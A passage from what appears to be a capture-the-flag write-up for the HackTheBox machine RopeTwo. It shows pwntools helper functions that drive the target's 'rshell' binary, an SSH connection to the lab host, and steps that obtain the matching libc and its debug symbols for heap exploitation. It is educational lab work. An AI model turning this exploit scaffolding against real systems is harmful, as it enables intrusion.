     def rm(name, wait=True):
        p.sendline(f'rm {name}')
        if wait:
            p.recvuntil(prompt)
    
    def edit(name, size, content='x'):
        p.sendline(f'edit {name}')
        res = p.recvuntil(('size: ', prompt))
        if res == prompt: 
            pdb.set_trace()
            return
        p.sendline(f'{size}')
        if size > 0:
            p.recvuntil('content: ')
            p.send(content)
        p.recvuntil(prompt)
    
    
    rshell = ELF('./rshell')
    libc = ELF('./libc.so.6-ropetwo')
    
    if args.REMOTE:
        remote = ssh(host='10.10.10.196', user='chromeuser', keyfile='/root/keys/ed25519_gen')
    
    if args.REMOTE:
        p = remote.run('rshell')
    else:
        p = process('./rshell')
    p.recvuntil('$ ')
    x=1
    

#### Libc

I’ll want to use the same `libc` that is being used on RopeTwo:

    
    
    chromeuser@rope2:~$ ldd /usr/bin/rshell 
            linux-vdso.so.1 (0x00007fff8515b000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc977190000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fc97738a000)
    

I’ll use `scp` to get both `libc.so.6` (which I’ll name `libc.so.6-ropetwo` on
my host) and `ld-linux-x86-64.so.2`.

I’ll want debug symbols for `libc`, so I’ll use the same process I used in
[PlayerTwo](/2020/06/27/htb-playertwo.html#fix-heapinfo):

    
    
    root@kali# wget https://answers.launchpad.net/ubuntu/+source/glibc/2.29-0ubuntu2/+build/16599428/+files/libc6-dbg_2.29-0ubuntu2_amd64.deb
    ...[snip]...
    root@kali# dpkg --fsys-tarfile libc6-dbg_2.29-0ubuntu2_amd64.deb | tar xOf - ./usr/lib/debug/lib/x86_64-linux-gnu/libc-2.29.so > libc-2.29.so
    root@kali# eu-unstrip libc.so.6-ropetwo libc-2.29.so
    root@kali# mv libc-2.29.so{,-debug}
    